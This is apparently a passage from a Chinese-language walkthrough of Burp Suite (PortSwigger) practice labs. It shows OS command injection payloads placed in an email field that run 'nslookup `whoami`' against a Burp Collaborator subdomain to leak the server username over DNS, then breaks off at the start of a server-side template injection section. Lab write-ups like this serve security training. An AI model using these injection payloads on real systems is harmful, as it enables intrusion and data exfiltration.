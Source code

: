 ```
email=x||nslookup & nslookup `whoami`.c6j255p6b8zyjmu2ry8whruy3p9fx4.burpcollaborator.net||
```

<img src=".\图片\Snipaste_2023-07-31_21-09-52.png" alt="Snipaste_2023-07-31_21-09-52" style="zoom:80%;" />

## Lab5

操作与Lab4一样，就不再操作了

```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
我的是：
email=x||nslookup+`whoami`.fl45n2ug5x4nmill7s67s7u7jypodd.burpcollaborator.net||
```

# Server-side template injection

[梨子带你刷burpsuite靶场系列之高级漏洞篇 - 服务器端模板注入(SSTI)专题-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/246293)

## Lab1
